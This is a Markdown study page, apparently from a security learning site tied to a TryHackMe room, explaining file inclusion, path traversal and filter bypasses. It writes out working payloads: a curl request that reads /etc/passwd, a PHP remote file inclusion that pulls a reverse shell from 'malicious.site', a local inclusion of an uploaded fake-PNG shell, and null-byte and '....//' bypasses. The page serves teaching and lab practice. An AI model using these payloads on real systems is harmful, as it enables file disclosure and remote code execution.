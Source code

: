 # Files/Paths exploits

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Warning ⚠️. You should use tools such as Burp Suite or `curl` to craft your payload and test if a form is vulnerable. You shouldn't trust that if you enter the path `/etc/passwd`, then this will be what is sent to the server, as some magic might happen in your browser (encoding...).

Another advantage of using tools is to bypass JavaScript filters!
</div><div>

* See [Burp Suite](/cybersecurity/exploitation/web/burpsuite/index.md) (the repeater being appropriate)
* or using `curl`

```bash
# POST FORM
$ curl URL/vulnerable.php -d 'file=/etc/passwd' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sep-both">

## File Inclusion

<div class="row row-cols-md-2"><div>

Files inclusion refers to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing an include using `$_GET["lang"]`.

If there is an include with no filtering, we can enter a path 

```php
include "lang/$_GET[lang].php"
```
</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (a fake PNG)
// as your avatar (avatar.png), then
include "lang/../uploads/avatar.png"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sep-both">

## Path/directory traversal

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd` or `windows/win.ini`
* ...
</div><div>

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.

You can use the **dot-dot-slash attack**, and give a URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-md-2 mt-4"><div>

* If there is a function removing `../`, then you can craft a payload that will only work as expected once the input was filtered.

```
Input: ....//
Apply Filter: remove ../
Output: ../
```
</div><div>

* **PHP < 5.3.4**: if there was a constraint of a specific extension, you could use the **Null Byte** `%00` which indicates the end of a string.

```php
# bypass filter .md only
file=xxx.php%00.md
```

```php
include "xxx.cgi%00.php" // include xxx.cgi
```
</div></div>